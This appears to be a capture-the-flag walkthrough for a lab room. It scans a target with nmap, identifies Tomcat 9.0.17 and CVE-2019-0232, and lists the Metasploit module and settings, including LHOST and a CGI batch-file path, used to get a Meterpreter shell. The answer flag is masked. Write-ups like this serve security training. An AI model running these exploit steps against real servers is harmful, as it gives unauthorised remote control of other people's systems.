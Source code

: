 # Ready, set, elf.


- What is the version number of the web server?

	- `nmap -sV <TARGET_IP>` (Remember, if it says "host seems down", use `-Pn`, look for what it means)
	- `9.0.17`

- What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

	- `msfconsole`
	- `search tomcat 9`
	- It outputs `exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10`. googling then...
	- `CVE-2019-0232`

- Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

	no answer needed

	- after search, It should outputs only one exploit, anyway use `use 0` if the output is only one, or the appropriate number
	- `set RHOSTS <TARGET_IP>`
	- `set RPORT 8080`
	- `set LHOST <YOUR_IP>`
	- `set targeturi /cgi-bin/elfwhacker.bat`
	- `run` or `exploit`

- What are the contents of flag1.txt?

	- `cat flag1.txt`
	- `thm{********_***_***_*****}`

- Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

	no answer needed




